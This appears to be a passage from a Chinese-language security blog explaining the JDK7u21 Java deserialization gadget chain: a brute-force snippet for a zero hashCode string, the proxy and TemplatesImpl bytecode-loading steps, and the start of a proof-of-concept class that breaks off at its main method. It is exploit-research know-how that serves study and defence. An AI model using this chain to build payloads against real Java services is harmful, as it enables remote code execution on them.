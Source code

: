 所以我们控制他的key.hashCode为0就好了，这样result结果就变成了`value.hashCode()`

而这个hashCode为0的字符是存在的，这里可以用这个脚本来爆破

```java
public static void bruteHashCode()
{
  for (long i = 0; i < 9999999999L; i++) {
    if (Long.toHexString(i).hashCode() == 0) {
    	System.out.println(Long.toHexString(i));
  	}
  }
}
```

这里可以用`f5a5a608`也是ysoserial用的字符

那么会发现在第二次put的时候，计算的hash就是相同的了

![image-20221025221822131](https://tuchuang.huamang.xyz/img/image-20221025221822131.png)

那么后面就接上了我们之前说的动态代理

![image-20221026011053199](https://tuchuang.huamang.xyz/img/image-20221026011053199.png)

进入到Templatesimpl加载字节码

![image-20221026011134298](https://tuchuang.huamang.xyz/img/image-20221026011134298.png)



## POC

有两个小点

- 先定义无害HashMap，在LinkHashSet完成add操作后再把恶意代码加进去
- HashMap的value设定和LinkHashSet同款的TemplatesImpl对象来绕过hash

```java
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassClassPath;
import javassist.ClassPool;
import javassist.CtClass;

import javax.xml.transform.Templates;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.util.HashMap;
import java.util.HashSet;
import java.util.LinkedHashSet;
import java.util.Map;


public class JDK7u21 {
    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }
    public static void main(String[] args) throws Exception {
```